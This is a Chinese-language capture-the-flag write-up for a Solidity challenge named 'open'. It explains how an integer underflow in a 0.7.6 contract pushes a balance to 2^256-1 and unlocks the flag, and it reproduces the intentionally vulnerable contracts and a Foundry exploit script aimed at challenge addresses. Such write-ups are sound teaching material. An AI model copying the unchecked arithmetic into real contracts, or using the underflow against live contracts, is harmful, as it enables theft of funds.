


## open

**这道题涉及到了整数溢出问题**

### 目标：

使`solved`为`true`

### 思路：

拿到题先寻找结题条件，发现结题条件是使`solved`为`true`，但是需要满足`open.solved()`，在`open`合约中找到了使`solved`为`true`的`open()`函数，只需要满足`Attraction[msg.sender] >= 99999`，`key`是private变量，可以利用cast指令得到，从而执行`goodkey()`函数，可以得到9999，但是只能执行一次不可能达到99999，所以此方法行不通。

这道题的版本为0.7.6，在0.8.0版本以下，整数运算没有使用 SafeMath 库，所以会导致溢出，执行 `0 - 1` 在 0.7.6 版本中，它会变成 `uint256` 的最大值（2^256 - 1），满足大于99999的条件，所以先执行`StayWithNailong()和PlayWithNailong()函数`，满足`stay && attend`，然后故意输错key，使`Attraction[msg.sender] = 0`,然后执行`FightWithNailong()`函数，触发下溢，然后调用 `open()`使`solved`为`true`

注：可以利用cast指令运行`getInstance()`,得到`address(open)`。



### 源码：

```
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.7.6;

import {Open} from "./Open.sol";

contract Setup {
    Open public open;
    bool public solved;
    address private deployer;

    constructor() payable {
        open = new Open(123456789, 987654321);
        deployer = msg.sender;
    }

    function getInstance() external view returns (address) {
        return address(open);
    }

    function isSolved() external returns (bool) {
        if (open.solved()) {
            solved = true;
        }
        return solved;
    }
}

// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.7.6;

import {Setup} from "./setup.sol";

contract Open {
    bool private attend;
    bool private stay;
    bool public solved;
    bool public keyused;
    uint256 private key;
    uint256 private fakekey;
    mapping(address => uint256) public Attraction;

    constructor(uint256 _key, uint256 _fakekey) {
        key = _key;
        fakekey = _fakekey;
    }

    function open() external {
        require(Attraction[msg.sender] >= 99999, "Your Attraction is not enough to open!");
        solved = true;
    }

    function goodkey(uint256 _key) external {
        if (_key == key) {
            require(!keyused,"just one chance!");
            keyused=true;
            Attraction[msg.sender] += 9999;
        } else {
            Attraction[msg.sender] = 0; // be careful
        }
    }

    function PlayWithNailong() external {
        require(!attend, "just 1 chance!");
        attend = true;
        Attraction[msg.sender] += 1;
    }

    function StayWithNailong() public {
        require(!stay, "just 1 chance!!");
        stay = true;
        Attraction[msg.sender] += 1;
    }

    function FightWithNailong() public {
        require(stay && attend, "Why don't try?");
        Attraction[msg.sender] -= 1;
    }
}
```

### poc：

```
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;

import "forge-std/Script.sol";

interface IOpen {
    function PlayWithNailong() external;
    function StayWithNailong() external;
    function goodkey(uint256 _key) external;
    function FightWithNailong() external;
    function open() external;
}

interface ISetup {
    function isSolved() external returns (bool); 
}


contract Attack is Script{
    function run() external {
        uint256 _key = 111;
        
        vm.startBroadcast();

        IOpen Open = IOpen(0x603F05626576D1b39cbf2beE29ebC10706A09ff4);
        ISetup setup = ISetup(0x52bE630593D6Ee02ce32328c15929C9a9410b2dC);


        Open.PlayWithNailong();
        Open.StayWithNailong();
        Open.goodkey( _key);
        Open.FightWithNailong();
        Open.open();
        setup.isSolved();


        vm.stopBroadcast();
    }
}
```


